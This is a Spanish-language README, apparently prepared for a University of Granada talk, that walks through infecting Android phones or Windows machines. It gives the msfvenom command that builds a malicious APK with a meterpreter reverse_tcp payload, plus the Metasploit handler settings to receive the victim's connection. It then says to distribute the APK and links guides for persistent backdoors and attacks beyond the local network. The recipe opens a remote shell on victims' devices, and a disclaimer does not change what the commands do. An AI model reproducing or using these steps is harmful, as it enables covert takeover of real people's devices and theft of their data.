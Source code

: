 #Android Invaders - Prueba de concepto

![Logo](images/logo.png)

Pequeño tutorial de como lanzar un ataque a un móvil de Android (o a Windows) creando un APK o archivo EXE a través del cual la máquina o móvil infectada se conectará remotamente a la máquina del atacante, abriendo una conexión y permitiendo al atacante obtener información o realizar acciones en la máquina o móvil vulnerada.

**Pruebas y tutorial realizado por:** Juan Antonio Velasco Gómez [@juanvelascogomez](https://github.com/juanvelascogomez).

##Preparando el ataque

Información sobre direcciones ip

  **Dirección pública:** Se puede consultar a través de la página web [cual-es-mi-ip](www.cual-es-mi-ip.net).

  **Dirección IP local:** 192.168.221.129

##Creación del apk malicioso

  A continuación tenemos que crear el apk malicioso. Para ello tenemos que hacer uso de la herramienta de metasploit **msfvenom**.

  Para Android

      msfvenom -p android/meterpreter/reverse_tcp LHOST=direccion_ip LPORT=5555 R> apkmalicioso.apk

![Creacion del apk malicioso](images/apkmalicioso.png)

##Preparando el servidor del atacante

  Después de esto tenemos que dirigirnos al framework **metasploit** a ejecutar el servidor del atacante, para ello hacemos lo siguiente:

    use multi/handler
    set PAYLOAD android/meterpreter/reverse_tcp
    set LHOST 192.168.221.129
    set LPORT 5555

  Comprobamos que todo está correcto con *show options* y lanzamos el servidor

    exploit -j

  *El comando -j permite más de una conexión al servidor*

  Será la víctima la que se conecte a nosotros puesto que el PAYLOAD que hemos seleccionado es reverse_tcp. Si somos nosotros quien quiere conectarse a la víctima existe otro PAYLOAD llamado bind_tcp que lo hace. En vez de apuntar el LHOST, tendríamos que apuntar RHOST (dirección de la víctima), pero ésta normalmente es desconocida.

  A partir de ahí se trata de **distribuir el apk** y esperar la conexión a esas sesiones de meterpreter.

  Algunos comandos que se pueden usar una vez que conseguimos la sesión de meterpreter

![Algunos comandos interesantes](images/algunosComandos.png)

##Algunos videos y enlaces útiles

  2. Crear un [backdoor](http://null-byte.wonderhowto.com/how-to/create-persistent-back-door-android-using-kali-linux-0161280/). **Nota:** He comprobado que una vez que el usuario borra el apk estando la sesión abierta de meterpreter, esta se borra. Se desconecta. Sería interesante agregar algo para crear un backdoor en el dispositivo.

  3. Ataques fuera de LAN --> Uso de [NoIP](NOIP.md)

  4. [ISO](http://www.osboxes.org/android-x86/#android-x86-4_4-r2-vmware) de Android para VMWare

##Notas del autor

Este tutorial fue realizado para una charla informativa para la Universidad de Granada, el autor o autores de él no se hacen responsables del mal uso que se pueda dar. Sed buenos. }:)
